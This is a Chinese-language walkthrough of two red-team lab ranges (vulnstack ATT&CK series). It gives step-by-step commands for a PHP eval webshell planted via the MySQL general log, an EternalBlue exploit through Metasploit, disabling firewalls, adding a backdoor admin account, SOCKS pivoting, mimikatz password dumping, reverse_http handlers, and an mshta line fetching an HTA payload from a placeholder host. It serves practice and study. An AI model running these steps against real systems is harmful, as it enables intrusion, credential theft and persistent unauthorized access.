# ATT&CK实战系列——红队实战（一）

记录一次域渗透

靶场地址[漏洞详情 (qiyuanxuetang.net)](http://vulnstack.qiyuanxuetang.net/vuln/detail/2/)

## 网站shell

网站配置



先打开服务



### 正常做法

扫目录有一个phpmyadmin 弱密码root/root登陆 日志getshell 还得提权

```sql
show variables like '%secure%'
如果是null 则无法直接写文件
show variables like '%general%'
如果是on则可以通过写日志来拿shell
set global general_log='on';
SET global general_log_file='<网站绝对路径>/shell.php'
SELECT 'shell123<?php eval($_REQUEST["1"]);?>';
绝对路径可以用php探针得到
```

还有给cms dirsearch没有扫到。。

### 第二种

- ifconfig 查看本机ip
- 同一个网卡 nmap -sP 192.168.54.129/24 扫描内网 得到目标主机192.168.54.130
- 访问80端口是一个php探针
- nmap -sS -sV -T4 -A 192.168.54.130 扫一波端口 发现win7 445端口开着 打一波永恒之蓝
- msfconsole 打开msf
- search ms17 搜索模块
- use auxiliary/scanner/smb/smb_ms17_010 使用模块
- options 查看设置选项
- set rhost 192.168.54.130 设置目标ip run 运行



- 发现可以使用永恒之蓝
- use exploit/windows/smb/ms17_010_eternalblue
- set rhost 192.168.54.130
- set lhost 192.168.54.129
- exploit



拿到shell 已经是管理员权限

- netsh firewall set allprofiles state off 关闭防火墙
- 或者开发端口 netsh advfirewall firewall add rule name=”desktop” protocol=TCP dir=in localport=3389 action=allow
- net user test mimA233 /add # 添加账户密码
net localgroup administrators test /add # 给test账户添加为管理员权限
net user test # 查询是否成功添加test用户
- rdesktop 192.168.54.130 远程桌面连接
  
- 搭个代理出来
- 可用msf直接搭建sock隧道：
进入session，自动创建路由：`run post/multi/manage/autoroute` 查看路由信息：`run get_local_subnets`
- background msf退回上级 sessions 查看当前会话 session -i 1(num) 进入会话
- search socks
- use auxiliary/server/socks_proxy
- run
- 用proxychains全局代理 设置配置文件vim /etc/proxychains.conf 在最后一行加代理地址

## 内网攻击

远程桌面 的管理员桌面有一个nmap 也可以把自己的文件传上去(cs搭服务，访问下载)

- nmap扫一波内网
- nmap -sn 192.168.52.143/24
- 发现 138 141 访问一下80
- 192.168.52.138 80端口有服务
- 测试代理 成功访问内网
  
- nmap扫一下端口 发现window server 2008 445 开着 尝试 永恒之蓝
- 用代理开msf
- 因为隔了一层内网 反弹不出来(或许姿势不对)使用正向shell
- use auxiliary/admin/smb/ms17_010_command
- set rhost 192.168.52.138
- set command 要执行的命令
- set command netsh advfirewall firewall add rule name=”desktop” protocol=TCP dir=in localport=3389 action=allow (开3389端口
- 添加用户 开3389端口 挂代理远程连一下
  
- 再扫一下141 同样方法打通
- set command ‘REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal” “Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f’ 关防火墙(版本低)
- 

拿下

## 学习

- mimikatz 抓密码 **privilege::debug**提权限**sekurlsa::logonPasswords**就是抓取密码
- net config Workstation 查看当前登陆域及用户信息
- net group “domain controllers” /domain 查看域控
- net group “domain admins” /domain 查看域管
- net view /domain:god 查看域成员

MSF和CS联动

- setg ReverseAllowProxy true //如果通过此 socks 反弹 shell，则需要开启此项，不推荐，速度慢，动静大
- MSF新建监听，payload使用`reverse_http`
- use exploit/multi/handler
- set payload windows/meterpreter/reverse_http
- run
- 然后cs 设置监听端口
- 
- 生成payload 用这个监听端口
- 
- 得到msf shell

上线cs

- 查看主机名 shell hostname
- 查看用户列表 shell net users
- 组管理员 shell net localgroup administrators
- 查看防火墙 shell netsh firewall show state
- 查看当前域 net view
- 查看域控列表 net dclist
- 
- smb监听器 [(75条消息) cs客户端 实时权限_【CS学习笔记】7、SMBbean的作用_疑似精神病的博客-CSDN博客](https://blog.csdn.net/weixin_30920907/article/details/112116177)
- psexec:内网中，最总要的还是域管理员账号，有了域管理员账号后，可以使用该域管理员账号密码利用 psexec 登录域内任何一台开启了admin$共享(该共享默认开启) 的主机。
- use exploit/multi/handler 在攻击服务器上生成连接软件，LHOST为攻击机IP地址

# ATT&CK实战系列——红队实战（二）

```bash
fping -asg 192.168.224.0/24      //找到靶机ip
nmap -sS -sV -T4 -A -p- 192.168.224.248      //扫描靶机

nmap使用:
-sP :ping扫描（不进行端口扫描）
-sT：进行TCP全连接扫描
-sS：进行SYN半连接扫描
-sF：进行FIN扫描
-sN：进行Null扫描
-sX：进行Xmas扫描
-O：进行测探目标主机版本（不是很准）
-sV：可以显示服务的详细版本
-A：全面扫描
-p:指定端口扫描
-oN：会将扫描出来的结果保存成一个txt文件
-oX：会将扫描出来的结果保存成一个xml文件
[-T1]-[-T5]:提高扫描速度
```

xray扫一下

```shell
./xray webscan --basic-crawler http://192.168.111.80:7001/ --html-output test.html

output:Weblogic wls-wsat XMLDecoder deserialization RCE CVE-2019-2725 + org.slf4j.ext.EventData
```

网上找一下现成的exp [TopScrew/CVE-2019-2725: CVE-2019-2725命令回显+webshell上传+最新绕过 (github.com)](https://github.com/TopScrew/CVE-2019-2725)

HTML Application

生成恶意的HTA木马文件 配合host file使用

mshta [http://x.x.x.x:8008/download/file.ext](http://x.x.x.x:8008/download/file.ext)

然后CS端就可以收到上线了

然后在cs上操作

dump hash

run mimikate 抓一下密码什么的

net view 返回6118

直接扫一下ip段

然后就可以打惹

通图



感觉就外网那一层，内网随便走。。。psexec
